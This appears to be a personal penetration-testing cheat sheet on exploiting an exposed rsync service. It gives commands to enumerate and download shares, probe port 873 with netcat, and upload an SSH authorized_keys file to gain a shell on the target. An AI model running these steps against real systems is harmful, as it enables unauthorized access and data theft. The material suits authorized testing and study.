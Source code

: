 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### SSH key upload

```bash - kali
rsync rsync://$TARGET
```

```bash - kali
rsync rsync://$TARGET/$FOLDER
```

Download share with it's contents:
```bash - kali
rsync -av rsync://$TARGET/$FOLDER ./rsyncfiles
```

Test to see if we can upload files:

```bash - kali
echo "test" > test
```

```bash - kali
rsync -av test.txt rsync://$TARGET/$FOLDER
```

```bash - kali
rsync -av --list-only rsync://$TARGET/$FOLDER
```

Next, we'll create ssh keys and upload so we can ssh into target:

```bash - kali
ssh-keygen
```

```bash - kali
cp /home/kali/.ssh/id_rsa* .
```

```bash - kali
mkdir .ssh && mv id_rsa* .ssh
```

Change the public key to authorized_keys

```bash - kali
mv id_rsa.pub authorized_keys
```

Transfer the key files to the target like so:
```bash - kali
rsync -a --relative ./.ssh  rsync://$TARGET/$FOLDER/
```

```bash - kali
ssh $USER@$TARGET
```

---

#### nc enumeration

```bash - kali
nc -nvv $TARGET 873
```

```bash - kali
@RSYNCD: 31.0  
```

```bash - kali
#list
```


Now lets try to enumerate

```bash - kali
nc -nvv $TARGET 873
```

```bash - kali
@RSYNCD: 31.0  
```

```bash - kali
$FOLDER
```

`@RSYNCD: AUTHREQD 7H6CqsHCPG06kRiFkKwD8g`    <--- This means you need the password


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
